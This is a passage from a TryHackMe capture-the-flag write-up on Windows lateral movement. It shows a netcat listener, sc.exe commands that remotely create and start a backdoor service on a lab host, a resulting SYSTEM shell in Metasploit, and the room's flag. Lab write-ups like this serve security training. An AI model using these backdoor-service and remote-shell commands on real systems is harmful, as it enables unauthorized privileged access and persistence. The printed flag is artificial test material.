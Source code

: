 ```
nc -lvnp 4443
```


Once we follow all steps, we receive our second shell:

![Pasted image 20250516132529.png](../../../IMAGES/Pasted%20image%2020250516132529.png)

Now, we need to follow the last steps:

6. Create a new service remotely using the nc shell (`Make sure to change the name of the service for it to work, there are more people on the network`):

```
sc.exe \\thmiis.za.tryhackme.com create BDOORSERVICE-3249 binPath= "%windir%\bdoor-service.exe" start= auto
```

7. Start the service:

```
sc.exe \\thmiis.za.tryhackme.com start BDOORSERVICE-3249
```


If we followed all steps correctly, we can check this in our `metasploit` listener:

![Pasted image 20250516132701.png](../../../IMAGES/Pasted%20image%2020250516132701.png)

As seen, we got a shell as `nt authority\system`, let's get our flag:

```
C:\Users\t1_leonard.summers\Desktop>.\Flag.exe
THM{MOVING_WITH_SERVICES}
```

# Moving Laterally Using WMI
---
